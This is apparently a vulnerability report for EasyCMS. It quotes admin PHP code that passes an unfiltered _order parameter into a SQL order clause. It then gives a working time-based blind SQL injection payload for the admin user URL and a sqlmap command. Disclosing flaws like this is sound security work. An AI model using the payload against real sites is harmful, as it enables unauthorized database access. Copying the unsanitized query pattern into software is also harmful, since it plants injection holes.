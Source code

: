# EasyCMS's background query function SQL injection vulnerability(new)

1.The following code has SQL injection:

vulnerability found in:
    \App\Modules\Admin\Action\ArticlemAction.class.php line 390 function query
   
		$list = $model->where($map)->relation(true)->order($order.' '.$sort)
						->limit($p->firstRow.','.$p->listRows)
						->select();			
		if (method_exists($this, '_tigger_list')) {
			$this->_tigger_list($list);
		}
		foreach ($map as $key => $val) {
			if (!is_array($val)) {
				$p->parameter .= "$key=" . urlencode($val) . "&";
			}
		}

![图片](https://user-images.githubusercontent.com/90664154/149264230-11e0c622-8903-4d8e-af35-d95d0e76aac7.png)

The variable Order is not filtered and SQL injection exists.

2.Payload
URL:/index.php?s=/admin/user/index.html
Payload: _order=123 AND (SELECT 8561 FROM (SELECT(SLEEP(5)))MlTU)&keyword=123&numPerPage=10&pageNum=1
Parameter: _order (POST)
Type: time-based blind

sqlmap command:
python sqlmap.py -r easycms.txt -batch
result:

![图片](https://user-images.githubusercontent.com/90664154/149264277-a720fa3e-c1d2-4184-aabf-a637bb3138ad.png)


